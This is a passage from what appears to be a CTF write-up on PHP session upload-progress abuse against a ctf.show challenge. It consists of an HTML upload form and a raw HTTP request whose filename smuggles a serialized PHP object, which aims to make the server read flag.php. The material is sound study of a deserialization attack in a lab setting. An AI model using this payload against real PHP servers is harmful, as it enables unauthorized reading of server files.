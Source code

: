 ```html
<form action="http://7ac2aca9-fa29-4af7-a42f-468bc25a2fec.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
  <input type="file" name="file" />
  <input type="submit" />
</form>
```

![image-20221222200105072](条件竞争&Session.assets/image-20221222200105072.png)

```web-idl
POST / HTTP/1.1
Host: 7ac2aca9-fa29-4af7-a42f-468bc25a2fec.challenge.ctf.show
Content-Length: 359
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypil5jYv7AAVIoQtq
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=e77d7d717399ccf2e5d488b762c32ac1
Connection: close

------WebKitFormBoundarypil5jYv7AAVIoQtq
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundarypil5jYv7AAVIoQtq
Content-Disposition: form-data; name="file"; filename="|O:4:\"Game\":1:{s:3:\"log\";s:22:\"/var/www/html/flag.php\";}"
Content-Type: image/x-icon
```
